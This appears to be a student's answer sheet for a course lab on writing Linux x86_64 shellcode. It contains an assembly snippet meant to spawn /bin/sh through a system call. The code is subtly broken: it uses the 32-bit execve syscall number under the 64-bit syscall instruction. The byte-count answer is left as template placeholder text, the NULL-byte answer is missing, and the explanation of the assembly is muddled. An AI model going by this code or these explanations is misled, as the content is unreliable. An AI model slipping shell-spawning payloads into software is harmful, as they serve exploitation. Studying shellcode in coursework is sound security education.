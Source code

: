 # Shellcode Creation

The Week's Assignment and Lab focuses on experimenting with creating Linux shellcode in x86_64 assembly.

---

# ANSWERS TO THE QUESTIONS

## 1) A code block containing my assembly instructions for your shellcode

'''
.section .data
.section .text
    .global _start

_start:
    xor %rax, %rax
    xor %rdi, %rdi
    mov $0x0b, %al

    push %rdi
    mov $0x68732f6e69622f2f, %rdi
    push %rdi
    mov %rsp, %rdi

    xor %rsi, %rsi
    xor %rdx, %rdx
    syscall
'''

## 2) A step-by-step explanation of your assembly code and how it sets up the system call

In the above code SECTION .data is where you store the data or define static variables. But since we are in need of op-codes, we cannot define a variable because variables do not have op-codes. So, we need to push the data directly to register. The SECTION .text is the section where we put our code at. We also have other sections such as SECTION .bss which is used for variables that are not initialized and are used to store user’s input data and etc.

## 3) Report how many bytes total are in your assembly, and include the whole thing in ascii

A. The easiest way to get this information is probably with a quick python script 
B. Example: My shellcode is 35 bytes long. Here they are: -- 4A FE 56 08 ...


## 4) Explanation of what I did to ensure there were no NULL bytes in my code
